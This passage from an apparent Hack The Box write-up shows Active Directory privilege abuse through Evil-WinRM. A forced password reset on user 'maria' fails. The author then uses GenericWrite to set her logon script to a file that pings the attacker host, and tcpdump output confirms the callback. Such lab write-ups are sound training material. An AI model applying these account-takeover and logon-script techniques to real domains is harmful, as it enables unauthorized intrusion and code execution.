
I can try to crack that with `hashcat`, but as the password is not in a
standard wordlist like `rockyou.txt`, it won’t crack without some extra effort
beyond what is needed for HTB machines.

### Password Change Fail

Some [references](https://burmat.gitbook.io/security/hacking/domain-
exploitation#reset-domain-user-password) I found suggested that `GenericWrite`
could work to change the user’s password, but this didn’t work here:

    
    
    *Evil-WinRM* PS C:\programdata> $newpass = ConvertTo-SecureString '0xdf0xdf!' -AsPlainText -Force
    *Evil-WinRM* PS C:\programdata> Set-DomainUserPassword -Identity maria -AccountPassword $newpass
    Warning: [Set-DomainUserPassword] Error setting password for user 'maria' : Exception calling "SetPassword" with "1" argument(s): "Access is denied. (Exception from HRESULT: 0x80070005 (E_ACCESSDENIED))"
    

### Logon Script

[HackTricks](https://book.hacktricks.xyz/windows/active-directory-
methodology/acl-persistence-abuse#genericwrite-on-user) suggests I can use
`GenericWrite` on a user to update their logon scripts. This script would run
the next time the user logs in. That’s not typical on HTB/CTF machines, but
it’s possibly something automated in the background.

I’ll write a script that will ping my host, remembering from the firewall
enumeration earlier that ICMP is one of the few things allowed outbound, and
set the script:

    
    
    *Evil-WinRM* PS C:\programdata> echo "ping 10.10.14.6" > ping.ps1
    *Evil-WinRM* PS C:\programdata> Set-DomainObject -Identity maria -SET @{scriptpath="C:\\programdata\\ping.ps1"}
    

Instantly there are packets at `tcpdump`:

    
    
    oxdf@hacky$ sudo tcpdump -ni tun0 icmp                   
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode                 
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes                       
    ec11:20:01.252961 IP 10.10.11.132 > 10.10.14.6: ICMP echo request, id 2, seq 11053, length 40
    11:20:01.253007 IP 10.10.14.6 > 10.10.11.132: ICMP echo reply, id 2, seq 11053, length 40  
    11:20:02.260576 IP 10.10.11.132 > 10.10.14.6: ICMP echo request, id 2, seq 11056, length 40
    11:20:02.260615 IP 10.10.14.6 > 10.10.11.132: ICMP echo reply, id 2, seq 11056, length 40  
    11:20:03.276421 IP 10.10.11.132 > 10.10.14.6: ICMP echo request, id 2, seq 11059, length 40
    11:20:03.276457 IP 10.10.14.6 > 10.10.11.132: ICMP echo reply, id 2, seq 11059, length 40  
    11:20:04.279746 IP 10.10.11.132 > 10.10.14.6: ICMP echo request, id 2, seq 11062, length 40
    11:20:04.279779 IP 10.10.14.6 > 10.10.11.132: ICMP echo reply, id 2, seq 11062, length 40  
    11:20:05.592129 IP 10.10.11.132 > 10.10.14.6: ICMP echo request, id 2, seq 11067, length 40
    11:20:05.592188 IP 10.10.14.6 > 10.10.11.132: ICMP echo reply, id 2, seq 11067, length 40  
    11:20:06.604067 IP 10.10.11.132 > 10.10.14.6: ICMP echo request, id 2, seq 11070, length 40
    11:20:06.604103 IP 10.10.14.6 > 10.10.11.132: ICMP echo reply, id 2, seq 11070, length 40  
    11:20:07.620145 IP 10.10.11.132 > 10.10.14.6: ICMP echo request, id 2, seq 11073, length 40
    ...[snip]..
    
